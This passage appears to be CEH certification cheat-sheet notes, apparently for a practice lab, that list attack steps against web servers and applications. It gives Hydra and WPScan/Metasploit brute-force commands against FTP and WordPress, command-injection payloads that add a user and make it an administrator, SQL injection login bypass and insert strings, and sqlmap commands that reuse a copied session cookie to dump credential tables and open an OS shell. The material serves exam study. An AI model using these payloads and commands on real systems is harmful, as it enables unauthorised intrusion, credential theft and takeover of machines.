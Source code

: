 ```
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0
2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com
3- Crack FTP credentials using nmap-  nmap -p 21 10.10.10.10 (check if it is open or not)
				      ftp 10.10.10.10 (To see if it is directly connecting or needing credentials)
Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file.
Now in terminal type-  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10

hydra -l user -P passlist.txt ftp://10.10.10.10
```
#  Hacking Web Application
```
1- Scan Using OWASP ZAP (Parrot)- Type zaproxy in the terminal and then it would open. In target tab put the url and click automated scan.
2- Directory Bruteforcing- gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt
3- Enumerate a Web Application using WPscan & Metasploit BFA-  wpscan --url http://10.10.10.10:8080/NEW --enumerate u  (u means username) 
Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin
4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 
5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
```
#  SQL Injections
```
1- Auth Bypass-  hi'OR 1=1 --
2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--
3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs
4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables
5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)
6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell
6.1 In the shell type-   TASKLIST  (to view the tasks)
6.2 Use systeminfo for windows to get all os version
6.3 Use uname -a for linux to get os version
```